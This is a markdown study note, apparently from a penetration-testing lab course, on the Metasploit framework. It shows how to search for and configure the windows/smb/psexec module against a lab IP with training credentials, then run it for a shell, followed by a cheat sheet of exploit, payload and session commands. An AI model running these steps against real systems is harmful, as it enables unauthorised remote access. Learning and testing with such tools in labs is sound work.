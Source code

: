 ```yaml
---
tags:
  - Exploitation
  - Tooling
  - Metasploit
aliases:
  - Metasploit
---
```

[Metasploit](https://www.metasploit.com/) is an automated attack framework developed by `Rapid7` that streamlines the process of exploiting vulnerabilities through the use of pre-built modules that contain easy-to-use options to exploit vulnerabilities and deliver payloads to gain a shell on a vulnerable system.
## Usage

```
sudo msfconsole
```

### Searching Modules 

```shell-session
search smb
```

Let's look at one module, in particular, to understand it within the context of payloads.

`56 exploit/windows/smb/psexec`

| Output     | Meaning                                                                                                                                                                       |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `56`       | The number assigned to the module in the table within the context of the search. This number makes it easier to select. We can use the command `use 56` to select the module. |
| `exploit/` | This defines the type of module. In this case, this is an exploit module. Many exploit modules in MSF include the payload that attempts to establish a shell session.         |
| `windows/` | This defines the platform we are targeting. In this case, we know the target is Windows, so the exploit and payload will be for Windows.                                      |
| `smb/`     | This defines the service for which the payload in the module is written.                                                                                                      |
| `psexec`   | This defines the tool that will get uploaded to the target system if it is vulnerable.                                                                                        |

### Select Searched Module 

```shell-session
use 56
```

#### See Options 

```shell-session
options
```

#### Setting Options 

```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

### Run Exploit

```
exploit
```



## Cheat Sheet Commands 

| **Command**                                     | **Description**                                                                                                                                   |
| :---------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------ |
| `show exploits`                                 | Show all exploits within the Framework.                                                                                                           |
| `show payloads`                                 | Show all payloads within the Framework.                                                                                                           |
| `show auxiliary`                                | Show all auxiliary modules within the Framework.                                                                                                  |
| `search <name>`                                 | Search for exploits or modules within the Framework.                                                                                              |
| `info`                                          | Load information about a specific exploit or module.                                                                                              |
| `use <name>`                                    | Load an exploit or module (example: use windows/smb/psexec).                                                                                      |
| `use <number>`                                  | Load an exploit by using the index number displayed after the search command.                                                                     |
| `LHOST`                                         | Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells. |
| `RHOST`                                         | The remote host or the target. set function Set a specific value (for example, LHOST or RHOST).                                                   |
| `setg <function>`                               | Set a specific value globally (for example, LHOST or RHOST).                                                                                      |
| `show options`                                  | Show the options available for a module or exploit.                                                                                               |
| `show targets`                                  | Show the platforms supported by the exploit.                                                                                                      |
| `set target <number>`                           | Specify a specific target index if you know the OS and service pack.                                                                              |
| `set payload <payload>`                         | Specify the payload to use.                                                                                                                       |
| `set payload <number>`                          | Specify the payload index number to use after the show payloads command.                                                                          |
| `show advanced`                                 | Show advanced options.                                                                                                                            |
| `set autorunscript migrate -f`                  | Automatically migrate to a separate process upon exploit completion.                                                                              |
| `check`                                         | Determine whether a target is vulnerable to an attack.                                                                                            |
| `exploit`                                       | Execute the module or exploit and attack the target.                                                                                              |
| `exploit -j`                                    | Run the exploit under the context of the job. (This will run the exploit in the background.)                                                      |
| `exploit -z`                                    | Do not interact with the session after successful exploitation.                                                                                   |
| `exploit -e <encoder>`                          | Specify the payload encoder to use (example: exploit –e shikata_ga_nai).                                                                          |
| `exploit -h`                                    | Display help for the exploit command.                                                                                                             |
| `sessions -l`                                   | List available sessions (used when handling multiple shells).                                                                                     |
| `sessions -l -v`                                | List all available sessions and show verbose fields, such as which vulnerability was used when exploiting the system.                             |
| `sessions -s <script>`                          | Run a specific Meterpreter script on all Meterpreter live sessions.                                                                               |
| `sessions -K`                                   | Kill all live sessions.                                                                                                                           |
| `sessions -c <cmd>`                             | Execute a command on all live Meterpreter sessions.                                                                                               |
| `sessions -u <sessionID>`                       | Upgrade a normal Win32 shell to a Meterpreter console.                                                                                            |
| `db_create <name>`                              | Create a database to use with database-driven attacks (example: db_create autopwn).                                                               |
| `db_connect <name>`                             | Create and connect to a database for driven attacks (example: db_connect autopwn).                                                                |
| `db_nmap`                                       | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.)                                                  |
| `db_destroy`                                    | Delete the current database.                                                                                                                      |
| `db_destroy <user:password@host:port/database>` | Delete database using advanced options.                                                                                                           |